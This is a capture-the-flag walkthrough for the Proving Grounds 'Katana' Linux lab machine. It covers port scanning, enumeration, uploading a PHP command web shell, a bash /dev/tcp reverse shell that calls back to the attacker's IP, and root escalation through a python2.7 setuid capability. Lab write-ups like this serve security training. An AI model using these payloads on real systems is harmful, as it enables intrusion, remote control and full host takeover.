```yaml
---
layout: default
title: Katana
parent: Proving Grounds - Linux
nav_order: 2
---
```


# Katana

---

## Host Info

- **OS**: Linux
- **Hostname**: katana
- **IP**: 192.168.183.83

## Discovered Ports for Enumeration

| Port/Service    | Version | Notes |
| --------------- | ------- | ----- |
| 21 - FTP        |         |       |
| 22 - SSH        |         |       |
| 80 - HTTP       |         |       |
| 7080 - empoweri |         |       |
| 8088 - HTTP     |         |       |
| 8715 - HTTP     |         |       |

## Users and Credentials

- **Users**:
- **Credentials**:

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.183.83
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed.

## 80 - HTTP

Authenticate to /ebook/admin.php with **_admin:admin_** but ends up being deadend.

## 8088 - HTTP

Running **wfuzz** returns the following files:

- index.html
- upload.php
- upload.html

**upload.html** provides a place to upload files.

![upload](../../../assets/images/ctfs/proving_grounds/katana/upload.png)

### Upload PHP cmd shell

Create **shell.php** with the following contents:

```bash
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>
```

After successful upload the output indicates that the PHP web shell has been placed on the "other web server"

![upload_message](../../../assets/images/ctfs/proving_grounds/katana/upload_message.png)

# Exploitation

---

## Reverse Shell via PHP Web Shell

We have a PHP web shell with command execution.

Generate a reverse shell using **revshellgen**

```bash
# Generate reverse shell payload
revshellgen -i 192.168.45.217 -p 9001 -t bash

# URL encode the payload
urlencode "bash -i >& /dev/tcp/192.168.45.217/9001 0>&1"

# Output
bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261
```

Execute the URL encoded payload in the PHP web shell

```bash
# URL to execute
http://192.168.183.83:8715/katana_shell.php?cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

Receive back a reverse shell on the netcat listener.

![rev_shell](../../../assets/images/ctfs/proving_grounds/katana/rev_shell.png)

# Post-Exploitation

---

Elevate shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

## Check for extended capabilities

```bash
getcap -r / 2>/dev/null
```

![extend_cap](../../../assets/images/ctfs/proving_grounds/katana/extend_cap.png)

Within the /tmp directory, create **priv.py** that does the following:

1. Sets the UID to 0
2. Generates a /bin/bash shell

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

Make **priv.py** executable and run with python2.7 to get root shell.

![root](../../..s/assets/images/ctfs/proving_grounds/katana/root.png)
